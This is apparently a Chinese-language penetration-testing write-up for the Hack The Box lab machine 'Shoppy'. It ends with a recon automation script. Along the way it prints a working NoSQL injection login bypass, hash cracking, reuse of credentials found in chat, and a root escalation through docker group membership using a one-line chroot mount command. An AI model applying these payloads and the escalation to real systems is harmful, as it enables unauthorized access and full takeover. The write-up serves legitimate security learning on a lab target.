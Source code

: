 Difficulty: Easy

---

## 扫描

### 端口

```bash
nmap -v -n -Pn -sCV -oN Shoppy.nmap 10.10.11.180
```
只扫出22和80端口。


## 漏洞分析

### 80端口

将靶机域名加入hosts后访问。  
虽然感觉HTB的靶机域名应该都挺固定的，姑且写了个命令行，收集域名后加入hosts文件，看看以后能否通用：  
```bash
HTB_IP='10.10.11.180'; cat -e /etc/hosts && sudo sh -c "echo \"${HTB_IP}    $(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | sed 's/\r//g')\"  >> /etc/hosts"; cat -e /etc/hosts
``` 

- 无robots  
- 网页源码无发现  
- 网站无特别功能

本来打算枚举一下目录，不过惯例试了一下 `/login` 可以。  
在登陆界面尝试了几个SQLi绕过未果。SQLi只会一点基础的……卡住  

*搜了一波WP原来这里是 [NoSQL](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo) ……*

`admin'||'1==1` 成功登入。

admin界面有搜索框，输入 `admin` 搜索有回显admin的密码。看上去感觉是MD5加密。  
在搜索框输入同样的 `NoSQLi`，成功回显所有用户（admin和josh）的账号密码。

放进[MD5解码网站](../links.md#_2)试试。`josh` 用户可成功解码。

但是至此似乎没什么其他攻击路径了。

#### 子域枚举

由于是靶机所以只扫虚拟主机的子域

```bash
gobuster vhost -u shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain
```

扫出一个：`Found: mattermost.shoppy.htb Status: 200 [Size: 3122]`，将其也加入hosts。  
*最开始没加 `--append-domain` 啥都没扫出来。所以最好正式开扫之前加上 `-v` 小扫一下看看，否则都不知道自己扫的是啥容易错过突破口。*

#### 从子域突破

但是访问后是空白页面，试着刷新几次发现似乎有一闪而过的登陆界面。  
开burp拦截使其停在登录界面，输入刚破解的 `josh` 的账号密码，成功登入。


## foothold

是一个聊天工具的样子。有个带锁的频道十分引人注意。看了眼内容是让我们（josh）部署一个机器。还有账号密码：  

	username: jaeger
	password: Sh0ppyBest@pp!

SSH登陆成功。


## get user flag

```
jaeger@shoppy:~$ cat user.txt
```


## 横向移动

首先看看 `sudo -l`：  
```
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)


jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager


jaeger@shoppy:~$ ls -l /home/deploy/
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```

deploy家目录有creds.txt但是无法读取。  

看看sudo的那个命令是啥：  
`strings /home/deploy/password-manager`，注意到里面有段文字：`cat /home/deploy/creds.txt`  
似乎这个脚本可以读取creds.txt。尝试一下执行：  
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

但是不知道密码？？josh的那个不行，需要什么master password。迷茫……

*看了眼WP，竟然是用 `cat password-manager` 能发现有用的信息，服了。一直惯性觉得cat二进制文件没用每次都直接strings了……*

```
jaeger@shoppy:/home/deploy$ sudo -u deploy ./password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

SSH成功登陆 `deploy` 用户。
```
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```


## 提权

`deploy` 用户的这个 `998(docker)` 是什么情况，值得探究一下。  
通过[gtfobins](https://gtfobins.github.io/gtfobins/docker/)发现可以利用。运行下面命令后成功得到root shell：  
```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```


## get root flag

```
# cd
# ls
root.txt
# cat root.txt
```


---

## 后记

原来是NoSQL...

说是多了个横向移动吧，其实和之前靶机比，从foothold开始获得的用户数量又没差。  
大概是因为这次是web打点时用了一个账户，后来用的又是两个普通用户的账户而没有应用账户吧。

以及以前一直觉得既然SSH能成功登陆，就已经知道自己登陆的是什么用户，那么 `id` 命令没啥意义。  
这次随手一打竟然能发现deploy用户属于docker组，从而发现突破口，也属实是运气了……


最后，  
联系[这个思路](../GatheringInformation/summary.md#web_info_gathering)，感觉信息搜集可以弄一个简易脚本。以后试试直接用这个：

### HTB_easy_firstScaning
 
```bash
#!/usr/bin/bash
# -*- coding:utf-8 -*-

## This script is requires root privilege for running.
set -eu

HTB_IP=${1}
echo "[info] Starting scan..."

# --max-retries=0 maybe ok, but sometimes missing some ports. Default is 10.
ports=$(nmap -n -Pn -sS -p 1-10000 ${HTB_IP} --min-rate=5000 --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
echo "[info] Opening port: ${ports}"

# Since nmap scanning is too time-consuming, let it run in background.
nohup nmap -v -n -Pn -sV -O -p ${ports} --script=vuln ${HTB_IP} > "${HTB_IP}.nmap" 2>&1 &

if [[ ${ports} =~ '80' ]];then
  HTB_DOMAIN=$(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | tr -d '/\r')
  echo "[info] domain: ${HTB_DOMAIN}"

  if [[ ${HTB_DOMAIN} != '' ]];then
    # for backup
    cat -e /etc/hosts
    echo "-------- Backed up hosts --------"
    
    echo "${HTB_IP}    ${HTB_DOMAIN}" >> /etc/hosts
    
    cat -e /etc/hosts
    echo "-------- Modified hosts --------"

    echo "[info] Scanning subdomain..."
    gobuster vhost -u ${HTB_DOMAIN} -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain -o "subdomains_${HTB_DOMAIN}.txt"
    echo "[info] End of subdomain scan..."
  fi
fi

ps -ef | grep 'nmap -v -n -Pn'
echo "[info] Please check nmap status with: ps -ef | grep 'nmap -v -n -Pn'"
```